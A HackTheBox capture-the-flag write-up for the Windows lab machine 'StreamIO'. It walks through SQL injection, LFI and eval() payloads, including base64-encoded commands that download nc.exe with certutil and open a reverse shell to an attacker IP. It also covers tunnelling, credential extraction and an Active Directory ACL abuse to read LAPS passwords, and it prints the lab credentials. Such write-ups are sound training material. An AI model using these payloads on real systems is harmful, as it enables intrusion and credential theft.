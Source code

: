 ```yaml
---
layout: default
title: "StreamIO"
parent: HackTheBox
---
```


# Box Info

|-------|---------|
| Name | StreamIO |
| OS | Windows 🪟 |
| Rating | Medium |

# Enumeration 

### Nmap Scan

<details>
  <summary>Nmap Scan Result</summary>
  
```text
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-06-27 15:34:47Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: streamIO.htb0., Site: Default-First-Site-Name)
443/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| ssl-cert: Subject: commonName=streamIO/countryName=EU
| Subject Alternative Name: DNS:streamIO.htb, DNS:watch.streamIO.htb
| Not valid before: 2022-02-22T07:03:28
|_Not valid after:  2022-03-24T07:03:28
| tls-alpn: 
|_  http/1.1
|_ssl-date: 2022-06-27T15:35:46+00:00; +7h00m11s from scanner time.
|_http-server-header: Microsoft-HTTPAPI/2.0
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: streamIO.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

 </details>
- Microsoft IIS 
- Sub-Domain : `watch.streamio.htb`
- Domain : `streamio.htb`
- DC : `DC.streamio.htb`

### Web Enumration

On **Port 80** there was nothing, just IIS welcome screen, however on **Port 443 (https://streamio.htb/)** there is a login page as well as register page but can't login with new user we registerd.

Moving on to **https://watch.streamio.htb/** , here we have is a list of all movies. On doing `Dir Busting` got an interesting page:
- `search.php`

We can search movies here, so after trying manul union `SQLi` we can enumrate the database, since `sqlmap` was not working as page had some blacklist.
<img src="../../resources/streamio/20220708165200.png">

On after enumrating Database got some usernames and password hashes.

```text
'+UNION+SELECT+1,password,3,4,5,6+FROM+dbo.users+--+-
```

Some of the hashes were available on [CrackStation](https://crackstation.net/)

Now since correct Username and Password is not sure , did a `clusterbomb` attack on **Login Page** on `https://streamio.htb/`
and found a correct pair:

```text
yoshihide : 66boysandgirls..
```

---

# Foothold

Now since we can Login and there is nothing much at front, found `admin` page by doing `Dir busting`.

On admin page there are different features for user and each we are accessing each feature as some **GET** paramter, so on fuzzing it found `debug` paramter.

This paramter was vulnerable to `LFI`. Reading `Index.php` :

```text
https://streamio.htb/admin/?debug=php://filter/read=convert.base64-encode/resource=index.php
```

We can inculde any file from the system with absolute path and found credentials for `db_admin` .

```text
db_admin : B1@hx31234567890
```

Therefore searching for some other files, found `mater.php` which have `eval()` function on `include` POST paramter.

So we can exploit it and get Reverse Shell by uploading it and executing it.

```shell-session
$ curl -X POST --data "include=data://text/plain;base64,c3lzdGVtKCJjZXJ0dXRpbC5leGUgLXVybGNhY2hlIC1mIGh0dHA6Ly8xMC4xMC4xNC4yNy9uYy5leGUgbmMuZXhlIik7" "https://streamio.htb/admin/?debug=master.php" --cookie "PHPSESSID=<SESSION_ID>" -k

$ curl -X POST --data "include=data://text/plain;base64,c3lzdGVtKCJuYy5leGUgMTAuMTAuMTQuMjcgOTAwMSAtZSBjbWQuZXhlIik7" "https://streamio.htb/admin/?debug=master.php" --cookie "PHPSESSID=<SESSION_ID>" -k
```

#### Enumrating Database

Since we got the Database Credentials and we can see it's runnning 
![2](../../resources/streamio/20220708171524.png)
we can access it by tunneling our traffic, I used `chisel` : 

```text
.\chisel.exe client <Att._IP>:5555 R:4000:10.10.11.158:1433/tcp
```

After accessing the database using `impacket-mssqlclient`

```text
impacket-mssqlclient streamio.htb/db_admin@127.0.0.1 -port 4000
```

There was a `backup` Database which had some usernames and password hashes. One of them is user on system as well.

```text
nikk37 : get_dem_girls2@yahoo.com
```

# Privilage  Escalation
We can login as `nikk37` using `Evil-winRM`,
Running `winPEAS` and found an Intersting file

![3](../../resources/streamio/20220708172334.png)

We can get some passwords from it.
Tool used : [FirePWD](https://github.com/lclevy/firepwd)

```text
admin JDg0dd1s@d0p3cr3@t0r
nikk37 n1kk1sd0p3t00
yoshihide paddpadd@12
JDgodd password@12
```

Password for `JDgodd` is `JDg0dd1s@d0p3cr3@t0r` it was just a guess `uwu` , after getting authencation failed in Last step.

### Using BloodHound
Using `bloodhound-python` to enumerate **AD** 

```shell
$ bloodhound-python -u nikk37 -p 'get_dem_girls2@yahoo.com' -ns 10.10.11.158 -d streamio.htb -c All
```

> I used `SharpHound` as well but it was not collecting any Information about user, Don't know why but somehow `bloodhound-python` was

![4](../../resources/streamio/20220708173434.png)

`JDgodd` user have `write` permissions on `CORE STAFF` group

And again `CORE STAFF` group members have `ReadLAPSPassword` rights.

![5](../../resources/streamio/20220708173656.png)

**Path to Follow : **

`JDgodd` have `write` rights on `CORE STAFF` we can add `JDgodd` itself into `CORE STAFF` group.
Since we cannot create any other user as any of our owned user is not a member of `Account Operator` group which is a special group in **AD** even though bloodhoud shows that `nikk37` is a member of this group but it is not.

```powershell
Import-Module .\PowerView.ps1

$SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('streamio\JDgodd', $SecPassword)

Add-DomainObjectAcl -Credential $Cred -TargetIdentity "CORE STAFF" -PrincipalIdentity JDgodd -Rights All 

Add-DomainGroupMember -Identity 'CORE STAFF' -Members 'streamio\JDgodd' -Credential $Cred

Get-DomainGroupMember -Identity 'CORE STAFF'
```

And now we can read `LAPS` Password : 
![6](../../resources/streamio/20220708174448.png)

---

**Reference :** [TheHacker.Recipes ReadLAPSPassword](https://www.thehacker.recipes/ad/movement/dacl/readlapspassword)


